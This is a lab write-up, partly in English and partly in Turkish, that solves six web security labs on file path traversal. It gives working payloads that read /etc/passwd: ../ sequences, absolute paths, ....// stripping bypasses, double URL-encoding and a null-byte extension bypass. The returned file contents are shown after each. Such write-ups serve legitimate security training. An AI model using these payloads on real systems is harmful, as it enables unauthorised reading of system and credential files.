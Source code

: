 #### 1.Lab: File path traversal, simple case
In this lab we are asked to retreive the content of the etc/passwd file. To do this we send a request with a filename property set to `etc/passwd`, it might not work onn the first time we simply need to add a few `../`, after three of them we finally get our result.

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync 
...`

#### 2.Lab: File path traversal, traversal sequences blocked with absolute path bypass
To retreive the `etc/passwd` file we use an absolute path as directory traversal sequences are bocked in the filename property we write /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...

#### 3.Lab: File path traversal, traversal sequences stripped non-recursively

bu labda path traversal sekansını uygulama sildiği için ... ...// gibi ifadeler gireceğiz çünkü ortadaki .../ ifadesi kalkınca yine de aynı ifade kalacak. `filename=....//....//....//etc/passwd` ifadesini girdiğimizde labı çözmüş olacağız.

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...

#### 4.Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
Bazen web sunucuları tüm path traversal ifadelerini silebiliyor, bunun için ecoded path traversal ifadeleri kullanmak zorunda kalabiliriz. %252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd labı çözebiliriz.

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

#### 5.Lab: File path traversal, validation of start of path
bu örnekte filepath başı yazmazsak uygulama hata veriyor, bundan mütevellit images interceptlenen paketin path başlangıcına bakıyoruz ardından klasik yapmamız gerekeni yapıyoruz 
filename=/var/www/images/../../../etc/passwd 

voila
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

#### 6.Lab: File path traversal, validation of file extension with null byte bypass
bu labda filepath .png ile bitmesi gerektiği için null byte (`%00`) kullanmamız gerekiyor. 
GET /image?filename=../../../etc/passwd%00.png HTTP/2

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

